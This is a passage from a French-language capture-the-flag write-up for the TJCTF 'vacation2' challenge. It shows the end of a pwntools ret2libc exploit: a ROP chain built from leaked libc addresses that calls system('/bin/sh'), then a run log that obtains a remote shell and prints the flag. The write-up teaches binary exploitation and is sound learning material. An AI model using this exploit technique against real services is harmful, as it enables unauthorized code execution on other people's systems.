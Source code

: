 ```python
bin_sh = next(libc.search(b'/bin/sh\x00'))
system = libc.sym["system"]


print('\n    Address:')
print('[+] System  : %s'%hex(system))
print('[+] bin_sh  : %s'%hex(bin_sh))
print('[+] Pop_rdi : %s'%hex(pop_rdi))

print('[+] Getting Shell ...\n')

## Create Rop
rop = 24*b'A' + p64(ret) +p64(pop_rdi) + p64(bin_sh) + p64(system) + p64(ret_main_addr)

proc.sendline(rop)

proc.interactive()
proc.close()
```

et voici le Résultat :

```bash
root@DESKTOP-HNQJECB: /c
➜   python3 vacation2.py REMOTE

    Address:
[+] Ret2start   : 0x401176
[+] Puts        : 0x401064
[+] Fgets       : 0x401084
[+] Setbuf      : 0x401074
[+] Pop_rdi     : 0x401243
[+] Ret         : 0x40101a

    Leaked with Rop:
[+] Puts  : 7f328beea450
[+] Fgets : 7f328bee8660

    Address:
[+] System  : 0x7f328beb82c0
[+] bin_sh  : 0x7f328c01a5bd
[+] Pop_rdi : 0x401243
[+] Getting Shell ...

$ id
uid=1000 gid=1000 groups=1000
$ ls
flag.txt
run
$ cat flag.txt
tjctf{w3_g0_wher3_w3_w4nt_t0!_66f7020620e343ff}
```

*(source:[hacktricks](https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/rop-leaking-libc-address/rop-leaking-libc-template))*

Voila ! C'était ma première exploitation Ropchain ainsi que Ret2libc et j'espère que ma solution vous a plu.
